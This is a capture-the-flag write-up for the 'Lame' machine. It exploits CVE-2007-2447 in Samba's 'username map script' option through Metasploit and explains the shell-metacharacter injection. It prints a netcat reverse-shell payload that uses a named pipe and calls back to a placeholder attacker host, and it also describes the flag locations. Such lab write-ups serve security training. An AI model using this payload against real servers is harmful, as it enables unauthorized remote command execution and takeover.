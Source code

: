 # Lame

#### What are Shell Metacharacters?

Shell metacharacters are special characters in shell (like bash) that have specific functions, allowing users to control how commands are executed. Some common metacharacters include:

* `;` : Command separator. Allows running multiple commands in sequence.
* `|` : Pipe. Sends the output of one command as input to another.
* `>` and `>>` : Redirection operators. Redirects output to a file.
* `<` : Redirects input from a file.
* `&` : Background execution. Runs a command in the background.
* `$(command)` or `` `command` `` : Command substitution. Runs a command and replaces it with its output.



Perform an nmap scan using the -sV switch. We see we get a response with multiple services up and running on the target server.&#x20;

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.&#x20;



Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.



For the machine, we are going to utilizie CVE-2007-2447 which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."



Luckily, we see Metasploit already has a script to exploit this vulnerability.&#x20;

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

You will find the user flag in the /home/makis directory

Type Shell to spawn a new shell in your CMD and locate the root flag by typing cd /root

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



Here is the Metasploit script that actually performs the exploit.



#### Example Execution Flow

1. **Username Injection**:
   * When Samba processes the username field `/=`nohup mkfifo /tmp/hago; nc lhost lport 0\</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago\`\`:
2. **Command Execution**:
   * The shell interprets the backticks and executes the command inside them.
   * `mkfifo /tmp/hago` is executed, creating a named pipe.
   * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
   * `rm /tmp/hago` is executed, cleaning up the named pipe
   * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
   * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.

By carefully crafting the payload and using shell metacharacters, the attacker is able to execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Sure! Let's break down the details of the vulnerability in Samba's MS-RPC functionality and understand how it allows remote attackers to execute arbitrary commands using shell metacharacters.

#### Overview of the Vulnerability

1. **Samba Versions Affected**:
   * The vulnerability exists in Samba versions 3.0.0 through 3.0.25rc3.
2. **Component Involved**:
   * The issue is within the MS-RPC (Microsoft Remote Procedure Call) functionality of the `smbd` service in Samba.
3. **Vulnerability Description**:
   * The vulnerability allows remote attackers to execute arbitrary commands on the server by exploiting the way certain functions handle shell metacharacters.

#### Key Points of the Vulnerability

1. **SamrChangePassword Function**:
   * One of the specific functions affected by this vulnerability is `SamrChangePassword`.
   * If the `username map script` option is enabled in the `smb.conf` configuration file, an attacker can exploit this function.
   * The `username map script` option allows mapping of usernames using an external script, which can be exploited if not properly sanitized.
2. **Other Affected Functions**:
   * The vulnerability also affects other MS-RPC functions related to:
     * (2) Remote printer management.
     * (3) File share management.
   * Remote authenticated users can exploit these functions to execute arbitrary commands.

#### Exploit Mechanism

1. **Shell Metacharacters**:
   * Shell metacharacters (like `;`, `|`, `&&`, etc.) have special meanings in shell commands and can be used to inject and execute additional commands.
2. **Injection Point**:
   * The vulnerability arises when user input is improperly handled and passed to the shell without adequate sanitization.
   * For instance, if an attacker can control input that is processed by the `username map script`, they can include shell metacharacters to inject arbitrary commands.
3. **Command Execution**:
   * When the vulnerable MS-RPC function processes the injected input, it inadvertently executes the commands included by the attacker due to the presence of shell metacharacters.

#### Example Scenario

1. **Configuration**:
   *   Assume `username map script` is enabled in `smb.conf`:

       ```ini
       [global]
       username map script = /path/to/script
       ```
2. **Exploitation via SamrChangePassword**:
   * An attacker sends a specially crafted request to the Samba server, targeting the `SamrChangePassword` function.
   *   The request includes a malicious username that contains shell metacharacters and arbitrary commands:

       ```sh
       /=`command`
       ```
   * When Samba processes this input, it executes the `command` inside the backticks due to improper sanitization.
3. **Impact**:
   * The attacker can execute any command with the privileges of the Samba service, potentially gaining control over the server.

#### Summary

* **Vulnerable Versions**: Samba 3.0.0 through 3.0.25rc3.
* **Exploited Functions**: `SamrChangePassword`, and other MS-RPC functions related to remote printer and file share management.
* **Enabling Factor**: The `username map script` option in `smb.conf`.
* **Attack Mechanism**: Injection of shell metacharacters into user input processed by vulnerable functions, leading to arbitrary command execution.

By exploiting this vulnerability, attackers can gain unauthorized access to the system, execute arbitrary commands, and potentially compromise the server. It's crucial to properly sanitize input and update to a patched version of Samba to mitigate this vulnerability.
